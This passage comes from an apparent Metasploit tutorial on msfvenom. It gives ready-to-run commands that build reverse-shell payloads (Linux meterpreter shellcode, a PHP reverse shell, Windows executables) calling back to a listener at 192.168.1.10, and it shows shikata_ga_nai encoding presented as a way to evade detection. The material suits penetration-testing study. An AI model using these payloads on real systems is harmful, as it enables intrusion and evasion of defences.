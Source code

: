 3. **Generating Shellcode:**

   Generate shellcode for a Linux payload:

   ```plaintext
   msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f c -o shellcode.c
   ```

4. **Creating a PHP Payload:**

   Create a PHP reverse shell payload:

   ```plaintext
   msfvenom -p php/reverse_php LHOST=192.168.1.10 LPORT=4444 -f raw -o shell.php
   ```

### Practical Workflow

1. **Select Payload:**
   Choose the appropriate payload for your target system and scenario.

   ```plaintext
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444
   ```

2. **Choose Encoder (if needed):**
   Encode the payload to avoid detection.

   ```plaintext
   -e x86/shikata_ga_nai -i 5
   ```

3. **Specify Output Format:**
   Define the format for the payload.

   ```plaintext
   -f exe -o shell.exe
   ```

4. **Generate Payload:**
   Execute the `msfvenom` command to generate the payload.

   ```plaintext
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe -o encoded_shell.exe
   ```

### Output Formats

`msfvenom` supports various output formats, including:

- **Executable:** `-f exe`
- **Raw Shellcode:** `-f raw`
- **C Code:** `-f c`
- **PHP:** `-f raw` (typically used for web payloads)
- **Python:** `-f python`

Understanding and using `msfvenom` effectively allows you to create tailored payloads that can evade detection and fit into different exploit scenarios.

## Meterpreter
